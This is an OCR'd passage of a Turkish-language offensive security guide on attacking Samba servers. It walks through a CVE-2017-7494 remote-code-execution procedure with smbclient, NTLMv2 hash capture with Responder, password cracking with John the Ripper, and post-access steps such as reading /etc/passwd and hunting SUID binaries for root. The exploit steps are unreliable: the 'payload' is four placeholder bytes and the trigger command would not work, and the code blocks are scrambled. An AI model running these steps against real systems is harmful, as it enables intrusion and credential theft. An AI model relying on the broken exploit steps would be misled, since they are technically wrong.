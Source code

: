 ### 📌 4. Zafiyetlerin İstismarı
Bazı Samba sürümleri kritik güvenlik açıklarına sahiptir. Manuel olarak istismar edilebilecek bazı önemli zafiyetler:
🔹 Samba CVE-2017-7494 (Remote Code Execution - RCE)
Samba 3.5.0 ve 4.5.9 arasındaki sürümler bu açıktan etkilenmektedir.
"libpayload.so" adlı bir dosya yükleyerek uzaktan komut çalıştırılabilir.
### 📌 İstismar etmek için: 1️⃣ Kali Linux veya başka bir sistemde aşağıdaki komutu çalıştırarak dosya paylaşımı açılır:
```bash
mkdir /tmp/smbshare
```
echo -ne "\xff\xfe\xfd\xfc" > /tmp/smbshare/libpayload.so
#### 2️⃣ Daha sonra Samba'ya bağlanarak dosyayı hedefe yükleyin:
```bash
smbclient //<hedef_IP>/anonymous -U ""
```
put libpayload.so
#### 3️⃣ Uzaktan komut çalıştırmayı test etmek için:
```bash
smbclient //<hedef_IP>/anonymous -U "" -c 'open /libpayload.so'
```

🔹 Samba Kullanıcı Şifrelerini Ele Geçirme
Eğer Samba servisi düzgün yapılandırılmamışsa, kullanıcı parolaları sızdırılabilir.
### 📌 SMB Hashlerini Ele Geçirme
Windows makinelerden Responder ile SMB hash yakalama:
```bash
sudo responder -I eth0
```
Hedef sistemde bir kullanıcı paylaşılan klasörleri tararken NTLMv2 hashleri elde edilebilir. Bu hashleri John the Ripper veya Hashcat ile kırabilirsiniz.
### 📌 John the Ripper ile hash kırma:
```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### 📌 5. Erişim Sağlandıktan Sonra Ne Yapılabilir?
Eğer Samba servisine başarıyla erişildi ve shell alındıysa:
✔ Sistemde çalışan servisleri ve kullanıcıları kontrol et:
```bash
whoami
```
uname -a
cat /etc/passwd
### ✔ Yetkileri yükseltmek için SUID bit veya sudo yetkilerini kontrol et:
```bash
find / -perm -4000 2>/dev/null
```
Eğer root yetkisi elde edilirse, sistemin tamamı ele geçirilebilir.
